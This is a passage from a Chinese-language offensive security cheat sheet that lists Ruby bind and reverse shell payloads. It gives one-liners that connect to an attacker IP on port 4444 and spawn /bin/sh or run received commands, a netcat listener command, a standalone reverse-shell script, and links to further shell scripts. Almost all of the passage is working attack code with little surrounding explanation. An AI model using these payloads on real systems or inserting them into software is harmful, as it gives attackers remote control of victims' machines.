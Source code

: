 ```
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end' 
```

因为`192.168.0.15`是受害者 IP

## 反向 shell

攻击者正在端口 4444 上监听 `nc -lvp 4444`。现在在受害机器上运行

```
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)' 
```

如果你不想依赖于 `/bin/sh`

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' 
```

如果你不想依赖于 `cmd.exe`

```
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' 
```

因为`192.168.0.13`是攻击者 IP

如果你想要更灵活的脚本文件

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s) 
```

## 绑定和反向 shell

这是一个出色的独立实现，由GitHub上的[Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)编写的一个[bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb)和[reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells脚本。绑定shell需要身份验证，而反向shell则不需要。

# Ncat.rb
